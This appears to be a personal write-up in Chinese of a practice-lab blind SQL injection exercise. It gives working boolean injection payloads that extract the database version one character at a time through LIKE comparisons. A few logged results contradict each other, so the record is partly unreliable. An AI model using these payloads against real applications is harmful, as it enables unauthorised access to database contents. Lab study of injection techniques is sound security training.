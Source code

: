 # SQL Injection (Blind)

### Objective: Find the version of the SQL database software through a blind SQL attack.

頁面顯示的資訊有限，只能靠回傳的值是 true or false 來推測你的 query 的正確性

```bash
# User ID exists in the database.
0' OR '1'='1
```

```bash
# User ID is MISSING from the database.
0' OR '1'='2
```

`‘1’=’2` 不成立，所以不管前面那段 (`0’ OR` ) 是什麼，你都可以靠後面這段來判斷你的猜測是否正確

因此在這邊確認可以靠後面的那段語法來判斷 true or false，接下來就是要拼出那段語法

## 各種嘗試和卡關
```sql
SELECT IF(STRCMP('test','test1'),'no','yes');
```

```sql
SELECT SUBSTRING((select @@version), 1, 5) AS ExtractString;
```
```sql
SELECT IF ((SELECT @@version) = '10.3.32-MariaDB-1:10.3.32+maria~focal', 'pass', 'failed');
```
...

## 卡關

在這邊卡關了，因為太執著於用 SELECT,IF, UNION 的語法，後來看了一下提示的頁面，發現被遮住的答案提示長度並不常，代表應該有更簡短的寫法，因此改變方向，試著思考更簡短的判斷方式，就是 A AND B 這種形式的語法

接著順便重新梳理一下資訊，從推測程式語法的階段開始推敲:

可以假設原本的 SQL 大概長這樣

```sql
SELECT * FROM users WHERE id=0;
```

用 SQL injection 把它變成 `A OR B` 的形式就可以判斷 true false 了

```sql
SELECT * FROM users WHERE id=0 OR (SELECT SUBSTRING((SELECT @@version),1,2) = '10');
```

所以根據之前的 query 結果，我們只要加上版本判斷

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = '10')
```

還有為了滿足 injection 的 single quote `1='1` 在結尾

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = '10') AND 1='1
```

### 驗證測試

這邊要故意輸入錯誤的版本，確認頁面回傳的結果是否為 false，代表我們使用的 injection 邏輯是正確的

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = 'xx10') AND 1='1
```

### 開始推測

接下來就是利用 `like` 來慢慢逼近或猜測，或用工具會比較方便

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1%') AND 1='1
```

```sql
# 404
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.12%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2%') AND 1='1
```

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2.%') AND 1='1
```

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2%') AND 1='1
```

## Done
```
```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%') AND 1='1
```
```
最後再測試版號是否已經結束

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26.%') AND 1='1
```

到目前為止可以看出 DB 的版本是 `10.1.26`

## 心得

- 卡關時可以試著將 SQL 簡化或替換成另一種寫法 (前提是方向正確的話)
- 建立一個測試用得 DB 方便測試 SQL 語法

## memo

### query dn version

```bash
select @@version;
```

```bash
select VERSION();
```

